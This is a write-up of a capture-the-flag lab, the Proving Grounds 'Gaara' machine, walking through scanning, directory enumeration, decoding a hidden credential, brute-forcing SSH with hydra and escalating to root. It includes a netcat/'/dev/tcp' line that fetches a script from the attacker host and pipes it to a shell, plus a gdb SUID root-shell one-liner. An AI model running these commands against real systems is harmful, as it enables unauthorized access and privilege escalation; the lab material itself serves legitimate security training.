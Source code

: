 # $\color{Magenta}{Proving\ Grounds\ Play:\ Gaara\ Walkthrough}$
## $\color{Magenta}{Pentest\ performed\ in\ the\ Gaara\ machine\ on\ Proving\ Grounds\ Play.}$

### $\color{Cyan}{Scanning}$

As always, I started with a **nmap** scan to gather information about the system’s open ports.

```
nmap -sS -sV <machine ip>
```

![1_4fXNgTLaHZsTV6Mf43To9A](https://github.com/user-attachments/assets/081ed141-dede-4e12-b7c1-e013fa09c887)


The scan showed two ports:

- **80 (HTTP).** A website.
- **22 (SSH).** Remote access to a computer.

### $\color{Cyan}{Enumeration}$

When I searched the ip I found the following website:

![1_KxiJJ1hkZ3AbGJStI1kxBg](https://github.com/user-attachments/assets/dccc8f0b-acac-4cdf-a816-33906c1360a3)


Just in case, I inspected the web and view its source code, but I found nothing. Because of this, my next step was enumerating with **dirb** (which showed nothing) and **gobuster**:

```
gobuster dir -u <URL> -w <path to wordlist>
```

![1_c05QZ2LokWztcVmtEp0b1A](https://github.com/user-attachments/assets/51076dd1-c267-4fb1-860f-7bd21874d587)


In this case there was a directory called **Cryoserver,** which mentioned another three sub-directories (can be seen at the bottom of the page or viewing its source code):

- **Temari.**
- **Kazekage.**
- **iamGaara.**
    
![1_XW4W1bUWoIwGgvd9EJ7RqQ](https://github.com/user-attachments/assets/d9c239d2-5e4a-4c4d-a7ce-2a90b662ce94)

![1_0D942coMAUywiVF_7IJcuA](https://github.com/user-attachments/assets/f36d8e0e-d5f9-4cea-94c0-a5542be24cfe)


### $\color{Cyan}{Password Cracking}$

In the **iamGaara** sub-directory I finally found a weird string: **f1MgN9mTf9SNbzRygcU**

![1_XUZXOh3bMekraDTqzHb0-Q](https://github.com/user-attachments/assets/e77ae384-d2a7-41d5-9037-22874f8a3fe8)


To identify the code used to cipher the message I used an [encrypted message identifier](https://www.dcode.fr/cipher-identifier), which showed:

![1_RBdGEfF52m5NAS--OphgQg](https://github.com/user-attachments/assets/fb343be2-e314-4add-ba88-afab94ad27ec)

So, in [cyberchef](https://gchq.github.io/CyberChef/#recipe=Bcrypt(1)&input=JDJ5JDEyJER3dDFCWmo2cGN5YzNEeTFGV1o1aWVlVXpucjcxRWVOa0prVWx5cFRzZ2JYMUg2OHdzUm9t), I cracked the message with Base 58 obtaining this text: **gaara:ismyname.**

### $\color{Cyan}{SSH}$

Due to not being able to obtain more information from the website, I concluded that this message was the username and password for **SSH**. However, although the username was correct, ismyname wasn’t the password (it was just indicating that **gaara** was the username).

I had to know the password, so my next step was brute-forcing the **SSH** password with **hydra**.

To do this, I executed the following command:

```
hydra -l gaara -P <path to wordlist> <ip> ssh -t 4  
```

![1_j01NU9ZQ5nCXj54CUfroiQ](https://github.com/user-attachments/assets/29ed7d8f-a075-4c1e-8f87-5bf0469f3f27)

With these credential I was finally able to enter.

And, with a simple *“ls”* and *“cat”*, I got the first flag.

### $\color{Cyan}{Privilege Escalation}$

The last step was the privilege escalation.

First, I executed *“sudo -l”* to know the commands my user had access, but they didn’t have sudo privileges.

This left me with the **SUID** bit search, which was easily done with the script [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).

**👉🏿 SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it**.

This script not only search binaries and indicates the ones with the **SUID** bit, it also shows certificates, ssh files, crontab files… To use it you have to:

- Download the executable: `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`
- Send the script to the victim and execute it:
    - On the host: `sudo nc -q 5 -lvnp <port number>` < [linpeas.sh](http://linpeas.sh/)
    - On the victim: `cat < /dev/tcp/<yout ip>/<port number> | sh` (with this command, the output is shown in the victim shell).

Thanks to this script I saw the file **/gdb**, which had **SUID** permissions.

![1_zo--gaAkTWtJIOIZc5kLQQ](https://github.com/user-attachments/assets/0b0fac86-e457-449b-83b4-2849f9911b46)

To exploit it and to become root, I searched in [GTFOBins](https://gtfobins.github.io/):

**👉🏿 GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.**


```
./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

![1_T06hruVGu7JssjrJYz57gw](https://github.com/user-attachments/assets/c45efb14-4e93-45cd-b01b-eabc1d8086a8)

Executing that command I became root and got the flag.
